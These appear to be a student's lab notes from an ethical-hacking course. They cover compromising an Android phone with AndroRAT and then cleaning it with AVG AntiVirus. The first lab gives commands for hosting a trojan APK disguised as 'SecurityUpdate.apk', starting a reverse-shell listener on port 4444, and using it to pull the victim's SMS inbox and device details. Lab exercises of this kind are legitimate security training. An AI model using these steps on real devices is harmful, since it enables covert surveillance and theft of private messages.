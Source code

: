 	- ``cp /home/attacker/AndroRAT/SecurityUpdate.apk /var/www/html/share/``
	- If the share folder does not exist, then execute the following
		- Run ``mkdir /var/www/html/share`` command to create a shared folder
		- Run ``chmod -R 755 /var/www/html/share`` command
		- Run ``chown -R www-data:www-data /var/www/html/share`` command
			- or 
	- `` python3 -m http.server
3.  command to start listening to the victim's machine.
	- ``python3 androRAT.py --shell -i 0.0.0.0 -p 4444``
4. open android machine 
	- open any browser and go link 
	- ``htttp://10.10.1.13:8000
	- download and allow 
5. open parrot
	- and check and type 
	- ``help ``
	- to view the device related information.
		- ``deviceInfo 
	- to obtain a file containing SMSes from the inbox of a victim device.
		- ``getSMS inbox``
	- to view the MAC address of the victim's device.
		- ``getMACAddress``
	- to view other command type ``help ``
- done
- some important points to rember
- 
# Lab 2: Secure Android Devices using Various Android Security Tools
## Task 1: Secure Android Devices from Malicious Apps using AVG
- open Android machine 
1. open  **AVG AntiVirus** app
2. do smart scan 
	- give all permissions 
3.  **REMOVE** under Malware Detected section to remove the respective malware.
- done 

### References

### shortcut key 
- command to create a shared folder 
	 -  ``mkdir /var/www/html/share``
	 - ``chmod -R 755 /var/www/html/share``
	 - ``chown -R www-data:www-data /var/www/html/share``
 - command to start an Apache web server.
	 - ``service apache2 start``
- to download it from 
	- ``http://10.10.1.13/share``